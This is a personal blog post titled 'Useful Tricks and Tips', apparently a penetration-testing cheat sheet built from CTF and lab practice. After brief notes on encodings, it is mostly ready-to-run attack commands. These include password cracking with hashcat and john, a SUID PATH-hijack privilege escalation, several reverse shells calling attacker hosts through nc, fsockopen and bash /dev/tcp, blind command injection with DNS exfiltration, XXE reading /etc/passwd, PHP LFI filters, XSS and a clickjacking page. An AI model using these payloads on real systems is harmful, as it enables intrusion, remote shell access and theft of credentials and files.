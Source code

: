 ```yaml
---
layout: post
title: Useful Tricks and Tips
---
```

- Base32 is a common transfer encoding. It consists of 32-char set. These char-sets are usually alphabet in uppercase. 
- Base64 is another common transfer encoding. It consists of 64-char set. These char-sets are usually alphabet in uppercase and lowercase.
- Hex consists of 16 bits of binary. It also known as base16
- Rot 13 or known as rotate 13 is a form of Caesar cipher which rotate in 13 times.
- Rot 47 or known as rotate 47 is another form of Caesar cipher which rotate in 47 times. It encode almost all visible ASCII character.
- Morse code is a combination of signal made of short and long impulsion (dot and dash). It was designed for telecommunication.
- Binary-Coded Decimal (BCD) is a base10 encoding technique.

```bash
Cipher: 85 110 112 97 99 107 32 116 104 105 115 32 66 67 68
```

# Hashcat

- hashcat -m 1800 -a 0 hash.txt rockyou.txt

# Find command

```bash
find / -type f -newermt 2016-09-11 ! -newermt 2016-09-13 2>/dev/null

find / -perm -u=s -type f 2>/dev/null

cd /tmp
echo /bin/sh > curl
chmod 777 curl 
export PATH=/tmp:$PATH
/usr/bin/menu
```

<img src="/assets/images/kenobi.png" />

# Upgrading to a shell

```bash
python -c 'import pty;pty.spawn('/bin/bash')'
SHELL=/bin/bash script -q /dev/null
```

# Reverse Shell

```bash
php -r '$sock=fsockopen("x.x.x.x",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.2.97 9001 >/tmp/f
```

# Blind OS injection

```bash

||whoami>/var/www/images/output.txt||

# using DNS exfiltration Technique

email=x||nslookup+x.burpcollaborator.net||

```

# XXE Attacks

```html
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>

```
# XSS payloads

```html
<script>onclick(alert("Hello"));</script>
// window.location.hostname

```

# John Hashing

```sh

john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash1.txt
```

# Encryption gpg
- gpg --cipher-algo [encryption type] [encryption method] [file to encrypt] 
- gpg --cipher-algo AES-256 --symetric xyz.txt

## decryption
-- gpg xyz.txt

# How to crack encrypted files using john the ripper
- gpg2john [encrypted gpg file] > [filename of the hash you want to create]

# Reverse a wordlist
```sh
tac data.txt > new_data.txt
```
# Email re

```bash

email_re = re.compile(r'([a-zA-Z0-9_\+\-\.]+)@(([[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.)|(([a-zA-Z0-9\-]+\.)+))([a-zA-Z]{2,4}|[0-9]{1,3})(\]?)')
```

## Php reverse shell function

```php

function execInBackground($cmd) { 
                if (substr(php_uname(), 0, 7) == "Windows"){ 
                                    pclose(popen("start /B ". $cmd, "r"));  
                                                    } 
                                                                    else { 
                                                                                        exec($cmd . " > /dev/null &");   
                                                                                                            } 
                                                                                                                            } 
                                                                                                                                        execInBackground("/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP_HERE/YOUR_PORT_HERE 0>&1'");

```
# PHP LFI

```bash
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```
# Practice Labs
Capture the Flag (CTF) API Portal

    docker pull sbacker/ctfapi
    docker run --name ctfapi1 -p 8000:8000 -it -d sbacker/ctfapi

Witcher Portal

    docker pull sbacker/witcherportal
    docker run -it -d --name witcher10 -p8080:8080 -e PYTHONUNBUFFERED=1 sbacker/witcherportal

# Clickjack Attack Payload

```html
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:300px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://acbe1f391e8fd65480c7a7ac017500d7.web-security-academy.net/exploit"></iframe>

```
# Enumerating Samba
-SMB has two ports, 445 and 139
- On most distributions of Linux smbclient is already installed. Lets inspect one of the shares.


Your earlier nmap port scan will have shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve.

In our case, port 111 is access to a network file system. Lets use nmap to enumerate this.

```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.89.231
mkdir /mnt/kenobiNFS
mount machine_ip:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```


```bash
On most distributions of Linux smbclient is already installed. Lets inspect one of the shares.

smbclient //<ip>/anonymous
smbget -R smb://<ip>/anonymous
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.89.231

```
